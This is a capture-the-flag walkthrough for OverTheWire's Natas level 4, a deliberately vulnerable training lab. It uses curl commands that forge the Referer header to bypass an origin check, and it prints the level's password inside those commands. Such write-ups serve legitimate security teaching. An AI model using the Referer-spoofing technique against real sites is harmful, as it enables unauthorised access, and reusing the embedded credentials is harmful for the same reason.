




# 🕸️Natas Level 4 → Level 5

```
http://natas4.natas.labs.overthewire.org
```
Username: natas4  
Password: (natas4_password)

The clue for this challenge is that access should be allowed only for users coming from `http://natas5.natas.labs.overthewire.org`



After that, we inspect the page source.



### What is Curl?
`curl` (short for Client URL) is a command-line tool used to transfer data to or from a server using a variety of internet protocols — most commonly HTTP and HTTPS, but also FTP, SMTP, SCP, and more.


```
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ \
-H "Referer: http://natas5.natas.labs.overthewire.org/" \
http://natas4.natas.labs.overthewire.org/
```
``-u user:pass`` — Supplies Basic Auth credentials.  
``-H "Referer: …"`` — Fakes the page you’re “coming from”.  
``URL`` — The target server/page.  



You can also achieve this using the ``-e`` flag or the ``--referer`` option.
```
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ \
-e "http://natas5.natas.labs.overthewire.org/" \
http://natas4.natas.labs.overthewire.org/
```
or
```
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ \
--referer "http://natas5.natas.labs.overthewire.org/" \
http://natas4.natas.labs.overthewire.org/
```


Awesome! You can use this flag to access the next round.


